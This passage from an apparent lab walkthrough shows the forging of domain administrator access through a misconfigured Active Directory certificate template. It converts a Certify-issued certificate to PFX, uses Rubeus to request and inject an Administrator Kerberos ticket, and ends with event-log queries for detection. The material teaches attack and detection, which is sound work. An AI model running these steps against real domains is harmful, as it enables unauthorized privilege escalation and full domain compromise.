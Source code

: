 Once the attack finishes, we will obtain a certificate successfully. The command generates a `PEM` certificate and displays it as base64. We need to convert the `PEM` certificate to the [`PFX`](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files) format by running the command mentioned in the output of Certify (when asked for the password, press `Enter` without providing one), however, to be on the safe side, let's first execute the below command to avoid bad formatting of the `PEM` file.

Now we can copy past it on to a linux distro:

```bash
sed -i 's/\s\s\+/\n/g' cert.pem
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

We can then copy past the code back into the windows machine with:
```bash
cat cert.pfx | base64 > cert_b64.txt
```
Copy and paste the result into a text file in the windows machine and run this to convert it back from base64 to binary:
```PowerShell
[System.Convert]::FromBase64String((Get-Content "b64.txt")) | Set-Content "cert.pfx" -Encoding Byte
```

Now that we have the certificate in a usable `PFX` format (which `Rubeus` supports), we can request a Kerberos TGT for the account `Administrator` and authenticate with the certificate:
```PowerShell
PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\Administrator' # <--
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFaTCCBWVhggVhMIIFXaADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqA
      <SNIP>
      GA8yMDIyMTIyNjIwMDQ1M1qoDRsLRUFHTEUuTE9DQUypIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC2VhZ2xl
      LmxvY2Fs
[+] Ticket successfully imported! # <---

<SNIP>
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *